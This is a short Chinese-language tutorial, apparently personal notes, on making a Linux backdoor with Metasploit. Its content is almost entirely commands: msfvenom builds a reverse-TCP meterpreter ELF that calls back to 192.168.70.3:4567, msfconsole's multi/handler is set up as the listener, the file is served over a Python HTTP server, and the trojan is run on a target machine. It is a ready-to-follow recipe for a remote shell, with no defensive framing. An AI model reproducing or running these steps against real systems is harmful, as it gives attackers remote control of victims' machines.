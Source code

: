 # 一、环境准备

1. MSF-Metasploit Framework
2. 一台靶机

# 二、木马生成

1. 生成一个Linux后门

   ```
   msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4567 -f elf > shell.elf
   ```

   ![1643108165465](https://image.201068.xyz/assets/1643108165465.png)

# 三、配置监控

1. 启动msf   终端内输入：`msfconsole` 启动msf

   ![1643108186343](https://image.201068.xyz/assets/1643108186343.png)

2. 载入监控模块  msf中输入：  `use exploit/multi/handler`

3. 加载payload  msf终端中输入：

   `set payload linux/x64/meterpreter/reverse_tcp`

4. 配置payload  msf终端中输入：`show options`

   ![1643108202630](https://image.201068.xyz/assets/1643108202630.png)

5. 配置payload监控IP msf终端中输入： `set  lhost  192.168.70.3`

6. 配置payload监控端口  msf终端中输入：`set lport  4567` （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）

7. 检查payload配置  msf终端中输入：`show options`

8. 执行监控  msf终端中输入： `run`

   ![1643108218621](https://image.201068.xyz/assets/1643108218621.png)

# 四、攻击利用

1. 将木马上传到靶机 

   通过python创建一个简单web服务

   `python3 -m http.server 80`

   或

    `python2 -m SimpleHTTPServer 80`

2. 在靶机上**执行**木马 

   

3. 完成攻击利用

   ![1643108263211](https://image.201068.xyz/assets/1643108263211.png)













